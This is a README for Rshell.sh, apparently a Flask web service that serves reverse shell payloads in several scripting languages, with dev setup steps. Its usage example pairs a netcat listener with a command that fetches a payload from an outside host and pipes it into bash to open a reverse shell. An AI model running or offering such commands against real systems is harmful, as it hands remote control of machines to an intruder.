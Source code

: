 # Rshell.sh Reverse Shell Payloads aaS

[Live Site!](https://rshell.sh)

## Overview / How it works

This project is multi-language reverse shell payload generator written in
Python3 using the Flask web framework. The point is to make it easy to quickly
pull reverse shell payloads down from the *cloud* ☁️  to your terminal using
`curl` or `wget`.

### Example Usecase

* Setup you listener:

```
nc -lvnp 1234
```

* Then query [`rshell.sh`](https://rshell.sh) to kick off the reverse shell:

```
curl rshell.sh/127.0.0.1/1234 | bash
```

## Languages Covered

* Bash
* Python
* Perl
* PHP
* Awk

See the project [help page](https://rshell.sh/help) for more information.

## Dev Site Install / Setup

The server-side setup is pretty straight forward and this is run just like any
other flask app. Of course the instructions below are for spinning up the dev
version. Production setup involves extra steps and depends on your hosting
environment.

* First clone the repo:

```
git clone https://github.com/BlueSquare23/Rshell.sh
```

* Then install the required python modules:

```
cd Rshell.sh
virtualenv venv		# Virtual Env Optional
source venv/bin/activate	# Virtual Env Optional
pip3 install -r requirements.txt
```

* Finally, run the project:

```
python3 app.py
```

## Technologies

* Language: [Python 3](https://www.python.org/)
* Web-Framework: [Flask](https://palletsprojects.com/p/flask/)

